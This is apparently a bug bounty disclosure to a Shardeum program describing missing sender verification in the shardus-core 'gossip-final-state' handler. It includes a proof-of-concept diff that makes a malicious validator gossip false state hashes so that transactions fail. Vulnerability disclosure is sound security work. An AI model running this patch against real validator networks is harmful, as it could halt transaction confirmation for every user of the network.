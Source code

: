 
# Bypassing sender verification in 'gossip-final-state' can cause transaction to fail.

Submitted on Aug 13th 2024 at 20:13:43 UTC by @doxtopzhivago for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34481

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
The gossip-final-state gossip handler lacks incoming message verification. Consequently, this vulnerability allows various attacks, such as forcing transactions to fail or manipulating account balances after a transaction is executed.


## Vulnerability Details
During the execution of a transaction validators in the execution group exchange final account data with other nodes in the transaction group. The new consensus protocol introduces restrictions on sender, receiver and data. However, these restrictions are absent in the gossip-final-state handler, allowing control for attacker to the transaction's final state.

When a transaction is received by a malicious validator, it can send a gossip-final-state message to the validators in the transaction group with incorrect final account state information after a brief delay. This misinformation can include an incorrect hash or an incorrect final balance. If the hash is incorrect the transaction will fail since it doesn't  match the hash in the vote, triggering the repair process on the nodes from the non-execution group.

## Impact Details
This vulnerability impacts any transaction executed in the network, as there is no restriction preventing an attacker from being a part of either the transaction or execution group, and gives full control over the transaction failure status.

## References
https://github.com/shardeum/shardus-core/blob/72fba67d3a551f21368c8b0fe94f951c8f5cc4f8/src/state-manager/TransactionQueue.ts#L777



## Proof of Concept
A patch should be applied to the malicious validator in the Shardeum-core repository. I have created a POC that allows a malicious node to fail all transactions it knows about on non-execution group nodes. Notably, the node doesn't need to be part of the transaction or execution group. This will force the repair process on these nodes.

To test the POC:

    Create a local network with at least 2 shards (shard size 10, total nodes 20).
    If the POC is not working, try increasing the timeout from 2 seconds to 3-5 seconds.

```
diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 057dea8a..76ae5266 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -85,6 +85,8 @@ import SocketIO from 'socket.io'
 import { nodeListFromStates, queueFinishedSyncingRequest } from '../p2p/Join'
 import * as NodeList from '../p2p/NodeList'
 import { P2P } from '@shardus/types'
+import { WrappedResponses,
+} from '../state-manager/state-manager-types'
 
 
 // the following can be removed now since we are not using the old p2p code
@@ -748,6 +750,35 @@ class Shardus extends EventEmitter {
       )
       throw new Error(e)
     })
+    Self.emitter.on('beginTransaction', async (txId) => {
+      console.log('received new transaction:', txId)
+      setTimeout(async () => {
+        console.log('fixing new transaction:', txId)        
+        try {
+          let queueEntry = this.stateManager.transactionQueue.getQueueEntrySafe(txId)
+          const stateList = []
+          for (const key of queueEntry.uniqueKeys) {
+            let data = {accountId: key, stateId: 'wronghash'}
+            stateList.push(data)        
+          }
+          if (stateList.length > 0) {
+            const payload = {txid: queueEntry.acceptedTx.txId, stateList}
+            await Comms.sendGossip(
+              'gossip-final-state',
+              payload,
+              null,
+              null,
+              queueEntry.transactionGroup,
+              false,
+              4,
+              queueEntry.acceptedTx.txId
+            )
+          }
+        } catch (error) {
+          console.log('Gossip error:', error);
+        }        
+      }, 2000);      
+    })
     Self.emitter.on('removed', async () => {
       // Omar - Why are we trying to call the functions in modules directly before exiting.
       //        The modules have already registered shutdown functions with the exitHandler.
diff --git a/src/state-manager/TransactionQueue.ts b/src/state-manager/TransactionQueue.ts
index d921d1f9..616caef7 100644
--- a/src/state-manager/TransactionQueue.ts
+++ b/src/state-manager/TransactionQueue.ts
@@ -5550,6 +5550,7 @@ class TransactionQueue {
           //insert this tx into the main queue
           this._transactionQueue.splice(index + 1, 0, txQueueEntry)
           this._transactionQueueByID.set(txQueueEntry.acceptedTx.txId, txQueueEntry)
+          Self.emitter.emit('beginTransaction', txId)
 
           /* prettier-ignore */ if (logFlags.seqdiagram) this.seqLogger.info(`0x53455105 ${shardusGetTime()} tx:${txQueueEntry.acceptedTx.txId} Note over ${NodeList.activeIdToPartition.get(Self.id)}: aging`)
 
@@ -7039,6 +7040,7 @@ class TransactionQueue {
                 /* eslint-enable security/detect-object-injection */
 
                 if (failed === true) {
+                  console.log('transaction repair initiated: ', queueEntry.acceptedTx.txId)
                   nestedCountersInstance.countEvent('stateManager', 'shrd_awaitFinalData failed')
                   this.stateManager.getTxRepair().repairToMatchReceipt(queueEntry)
                   this.updateTxState(queueEntry, 'await repair')
                                                                   
```